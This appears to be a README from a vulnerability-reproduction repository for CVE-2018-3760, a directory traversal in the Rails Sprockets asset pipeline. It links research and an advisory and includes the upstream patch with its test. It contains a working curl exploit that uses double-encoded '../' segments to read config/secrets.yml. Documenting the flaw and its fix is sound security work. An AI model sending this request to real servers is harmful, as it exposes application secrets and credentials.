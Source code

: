 # CVE-2018-3760

> Rails Asset Pipeline Directory Traversal Vulnerability 

Found by [Orange Tsai](https://twitter.com/orange_8361)

![image](https://user-images.githubusercontent.com/5891788/67213331-26e13380-f41e-11e9-80f4-86a5c9cd993d.png)

**Note**: By default, Rails apps running in production mode are not vulnerable to this exploit.

Exploit:

```
curl -v http://127.0.0.1:3000/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/config/secrets.yml%3ftype=text/yaml
```

**Security analysis**

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/2542

**Security Advisory**

- https://blog.heroku.com/rails-asset-pipeline-vulnerability

# Patch

```patch
From c09131cf5b2c479263939c8582e22b98ed616c5f Mon Sep 17 00:00:00 2001
From: schneems <richard.schneeman+foo@gmail.com>
Date: Tue, 24 Apr 2018 16:37:53 -0500
Subject: [PATCH] Do not respond to http requests asking for a `file://`

Based on CVE-2018-3760 when the Sprockets server is accidentally being used in production, an attacker can pass in a specifically crafted url that will allow them access to view every file on the system. If the file hit contains a compilable extension such as `.erb` then the code in that file will be executed.

A Rails app will be using the Sprockets file server in production if they have accidentally configured their app to:

config.assets.compile = true # Your app is vulnerable

It is highly recommended to not use the Sprockets server in production and to instead precompile assets to disk and serve them through a server such as Nginx or via the static file middleware that ships with rails `config.public_file_server.enabled = true`.

This patch mitigates the issue, but explicitly disallowing any requests to uri resources via the server.
---
 lib/sprockets/server.rb | 2 +-
 test/test_server.rb     | 7 +++++++
 2 files changed, 8 insertions(+), 1 deletion(-)

diff --git a/lib/sprockets/server.rb b/lib/sprockets/server.rb
index 16edc4a4..5e5507c0 100644
--- a/lib/sprockets/server.rb
+++ b/lib/sprockets/server.rb
@@ -114,7 +114,7 @@ def forbidden_request?(path)
         #
         #     http://example.org/assets/../../../etc/passwd
         #
-        path.include?("..") || absolute_path?(path)
+        path.include?("..") || absolute_path?(path) || path.include?("://")
       end
 
       def head_request?(env)
diff --git a/test/test_server.rb b/test/test_server.rb
index d71bc999..b65ad809 100644
--- a/test/test_server.rb
+++ b/test/test_server.rb
@@ -286,6 +286,13 @@ def app
     assert_equal "", last_response.body
   end
 
+  test "illegal access of a file asset" do
+    absolute_path = fixture_path("server/app/javascripts")
+
+    get "assets/file:%2f%2f//#{absolute_path}/foo.js"
+    assert_equal 403, last_response.status
+  end
+
   test "add new source to tree" do
     filename = fixture_path("server/app/javascripts/baz.js")
 
```
